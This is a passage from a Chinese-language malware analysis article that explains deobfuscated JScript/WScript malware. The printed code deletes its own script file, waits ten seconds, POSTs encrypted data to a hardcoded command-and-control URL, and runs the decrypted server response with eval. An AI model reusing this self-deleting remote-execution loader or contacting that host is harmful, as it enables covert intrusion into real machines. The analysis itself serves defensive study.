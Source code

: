 这里的变量名称仍然含糊不清，但现在我们可以清楚地看到恶意软件的核心功能。



## 八、恶意软件分析

由于现在我们可以读取恶意软件，因此就可以轻松地分析代码。在这篇文章中，我们省略了代码的重构过程，因为上面展示的代码已经不包含其他的混淆。重构的脚本将在下面给出。请注意，完整脚本在本文的文件包之中。代码的第一部分如下：

```
try `{`
    var fileSystemObject = wscriptCreateObject("Scripting.FileSystemObject");
    fileSystemObject["DeleteFile"](this["WScript"]["ScriptFullName"], true);
`}` catch (e) `{``}`
var url = "http://60ea0260.auth.codingbit.co.in/submit.aspx";
var inputArray = [];
var tid = "500";
inputArray["push"]("a");
inputArray["push"](tid);
```

在整个try-catch结构中，原始脚本已经从文件系统中删除。之后，会对几个变量进行初始化。

```
var currentTime = getTime();
var tenSecondsLater = currentTime + 10000;
while (currentTime &lt; tenSecondsLater) `{`
    currentTime = getTime();
    this["WScript"]["Sleep"](1000);
`}`
sendRequest(inputArray);
```

然后，该恶意软件休眠10秒钟，然后调用`sendRequest`函数。

```
function sendRequest(inputArray, shouldReturnResponse) `{`
    if (typeof shouldReturnResponse === "undefined") `{`
        shouldReturnResponse = false;
    `}`
    var postBody = '',
        output = '',
        decryptedPayload;
    for (var i = 0; i &lt; inputArray["length"]; i++) `{`
        postBody += i + '=' + encodeURIComponent('' + inputArray[i]) + '&amp;';
    `}`
    postBody = encrypt(postBody);
    try `{`
        var httpRequest;
        httpRequest = wscriptCreateObject("MSXML2.XMLHTTP");
        httpRequest["open"]("POST", url, false);
        httpRequest["send"](postBody);
        if (httpRequest["status"] == 200) `{`
            output = httpRequest["responseText"];
            if (output) `{`
                decryptedPayload = decrypt(output);
                if (shouldReturnResponse) `{`
                    return decryptedPayload;
                `}` else `{`
                    this["eval"](decryptedPayload);
                `}`
            `}`
        `}`
    `}` catch (e) `{``}`
    return false;
`}`
```
